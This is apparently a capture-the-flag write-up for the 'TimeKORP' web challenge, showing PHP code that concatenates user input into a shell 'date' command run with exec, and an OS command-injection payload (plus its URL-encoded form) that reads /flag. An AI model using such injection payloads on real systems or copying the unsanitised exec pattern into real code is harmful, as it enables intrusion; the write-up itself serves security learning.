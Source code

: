 ```yaml
---
title: TimeKORP 
date: 2024-03-14
author: 1byteBoy
tags:
  - Web
draft: false
---
```


## Description

TimeKORP 

## Solution

In the provided downloadable source code file, the `TimeModel.php` file has some interesting piece of code

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

It seems it's executing the `date` os command as 

```bash
date '+"%Y-%m-%d %H:%M:%S"' 2>&1
```

So after playing around with it for a bit, i discovered that it is vulnerable to OS command injection vulnerability. Where we can provide a payload like the following

```bash
"'&&cat /flag # 
```

better to url encode it `"'%26%26cat+/flag+%23`, which will read the flag from `/flag`.

Note: we can know the path from the given Dockerfile